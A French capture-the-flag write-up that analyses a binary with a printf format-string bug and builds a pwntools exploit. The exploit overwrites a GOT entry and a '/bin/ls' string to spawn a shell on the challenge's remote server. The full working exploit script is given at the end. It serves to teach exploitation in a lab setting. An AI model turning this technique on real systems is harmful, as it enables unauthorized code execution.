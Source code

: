 # Chiffrement de Beaufort -  HSR 2024

## Binary Analysis
Pour analyser le binaire, on va commencer par l&#39;ouvrir avec un décompilo, comme **Binja**. Le binaire n&#39;étant pas strippé, on peut s&#39;aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_symbols.png)

A part la fonction *backdoor()* qui aspire à servir de fonction *win()*, le nom des fonctions ne nous apporte rien d&#39;intéressant.
Regardons un peu plus en détail ce que fait le programme.

### Main()
Tout d&#39;abord, la fonction *main()* va lire l&#39;entrée standard à 2 reprises, attendant de l&#39;utilisateur qu&#39;il envoie une chaine de maximum 0x64 caractères. Ensuite elle va stocker ces entrées dans 2 buffers, puis appeler la fonction *beaufortCipher()* avec ces 2 buffers en paramètres.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main1.png)

### beaufortCipher()
Quant à la fonction *cipherBeaufort()*, comme son nom l&#39;indique, elle applique un chiffrement de **Beaufort** sur notre première input. La clé utilisée pour chiffrer le buffer est enfait notre 2ème input.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a été chiffrée avec la clé qu&#39;on donne au programme, la fonction *main()* affiche le buffer chiffré, puis la clé qu&#39;on lui a donné.
Et c&#39;est ici que se trouve la vuln. 

En effet, le *printf()* que le programme appel pour afficher notre clé prend directement la clé comme premier argument. Ainsi notre input (la clé) est interpetée, par *printf()*, comme étant le formatteur.
Le programme est donc vulnérable à une format string.

![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main2.png)

## Theorycraft
Maintenant réfléchissons à comment on va exploiter la vuln. Si on fait un **checksec**, on remarque que le binaire n&#39;a ni **PIE**, ni **RelRO**.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que **l&#39;ASLR** est actif. De plus, comme le chall est en remote, on a pas les détails de l&#39;environnement dans lequel run le binaire, donc c&#39;est trop foireux de se baser sur des adresses hardcodées de la stack.

Par contre, l&#39;abscence de **RelRO** et de **PIE** nous permet non seulement de localiser la **GOT** à coup sûr, mais aussi d&#39;y accéder en écriture. On peut donc envisager d&#39;overwrite certaines entrées de la GOT afin d&#39;obtenir notre shell.

Enfin on a une fonction *backdoor()* qui lance un *system(&#34;/bin/ls&#34;)*. La string *&#34;/bin/ls&#34;* étant dans la section *.data*, on peut la changer pour *&#34;/bin/sh&#34;* avant de rediriger le flow d&#39;execution vers *backdoor()*.
## Exploitation
Notre exploit va se faire en 3 étapes:
1) Trouver à quel offset notre input se trouve sur la stack, au moment du call à *printf()*
2) Overwrite *&#34;/bin/ls&#34;* avec *&#34;/bin/sh&#34;*
3) Overwrite l&#39;entrée de *exit()* dans la **GOT** avec l&#39;adresse de *backup()*

### Input offset
Pour trouver l&#39;offset, tout ce qu&#39;on a à faire est de lancer le programme, **break** au moment du *printf()* vulnérable et regarder à quelle distance de **$ESP** se trouve notre input. Pour repérer facilement notre input, on va envoyer *&#34;aaaaaaa...&#34;* comme clé.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_gdb.png)

On voit que notre input est à $0$x$78$ bytes de **$ESP**, soit en 32 bits, $30*4$ bytes. Notre offset est donc 30.

### The Exploit
Pour ce qui est de l&#39;exploit, on va utiliser le module *fmtstr* de *Pwntools* et plus particulièrement la fonction *fmtstr_payload()*. Il nous suffit simplement de lui passer comme argument l&#39;offset de notre input ainsi qu&#39;un dictionnaire des adresses et des valeurs qu&#39;on souhaite écrire.

```py
payload = fmtstr_payload(30, writes) 
print(payload)
```

L&#39;adresse de *&#34;/bin/ls&#34;* est *0x0804c024*. On va donc écrire *&#34;sh&#34;* à *0x0804c029*, ce qui nous donnera *&#34;/bin/sh&#34;*.
Enfin on va réécrire l&#39;entrée de *exit()* dans la **GOT** par l&#39;adresse de la fonction *backup()*.

```py
writes = { 0x0804c029: 0x00006873, 
		   elfexe.got[&#39;exit&#39;]: elfexe.sym[&#39;backdoor&#39;]}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF(&#39;./beaufort.bin&#39;)

def start(argv=[], *a, **kw): 
	&#39;&#39;&#39;Start the exploit against the target.&#39;&#39;&#39; 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = &#39;10.22.148.11&#39;
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] &#43; argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload&#43;b&#39;_&#39;*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got[&#39;exit&#39;]: elfexe.sym[&#39;backdoor&#39;]} 

payload = b&#34;A&#34;*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive()
io.close()
```


---

> Author:   
> URL: https://0xeg0.github.io/MyLittlePwney/writeups/hacksecureims/chiffrement_de_beaufort/  


